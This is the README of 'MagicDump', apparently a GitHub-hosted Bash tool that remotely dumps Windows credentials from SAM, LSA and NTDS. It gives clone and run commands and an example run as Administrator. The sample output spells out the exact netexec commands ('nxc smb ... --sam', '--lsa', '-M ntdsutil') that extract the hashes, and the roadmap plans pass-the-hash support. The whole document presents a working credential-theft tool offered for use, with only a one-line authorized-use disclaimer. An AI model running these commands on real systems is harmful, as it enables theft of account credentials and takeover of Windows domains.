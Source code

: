 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - (Upcoming) Pass-the-Hash and Pass-the-Ticket.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> -p <password> [--local-auth]
```

<br>

### Arguments
- `-t`: specify the target IP address
- `-u`: specify the username to authenticate as
- `-p`: specify the password
- `--local-auth`: Use local authentication (optional).

<br>

For help:
```bash
./MagicDump -h
```

<br>

---

<br>

## Example
```bash
./MagicDump -t 192.168.1.100 -u Administrator -p SuperSecretPass123
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Starting SAM dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --sam > '/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] SAM dump completed successfully. Output saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[INFO] Starting LSA dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --lsa > '/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] LSA dump completed successfully. Output saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[INFO] Starting NTDS dump using ntdsutil...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' -M ntdsutil > '/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] NTDS dump completed successfully. Output saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[LOG] Operation: NTDS, Status: success
[INFO] NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[INFO] Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Hash and Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
